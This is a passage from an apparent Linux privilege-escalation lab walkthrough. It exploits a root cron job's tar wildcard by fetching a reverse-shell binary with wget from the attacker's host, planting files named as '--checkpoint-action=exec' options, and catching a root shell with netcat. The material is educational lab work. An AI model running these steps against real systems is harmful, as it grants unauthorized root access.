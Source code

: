 `chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf`

```
user@debian:~$ wget "http://10.2.77.171:8080/shell.elf"
--2022-08-11 23:00:06--  http://10.2.77.171:8080/shell.elf
Connecting to 10.2.77.171:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: “shell.elf”

100%[=============================================================================>] 194         --.-K/s   in 0s      

2022-08-11 23:00:07 (40.2 MB/s) - “shell.elf” saved [194/194]

user@debian:~$ ls
myvpn.ovpn  overwrite.sh  shell.elf  tools
user@debian:~$ chmod +x shell.elf 
user@debian:~$ 


```

```

user@debian:~$ touch /home/user/--checkpoint=1                    
user@debian:~$ pwd
/home/user
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
user@debian:~$ 

```

When the tar command in the cron job runs, the wildcard * will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

```

┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ nc -lnvp 4444                                                                           
listening on [any] 4444 ...
connect to [10.2.77.171] from (UNKNOWN) [10.10.217.88] 49768
whoami
root
pwd
/home/user
echo $SHELL
/bin/bash

```
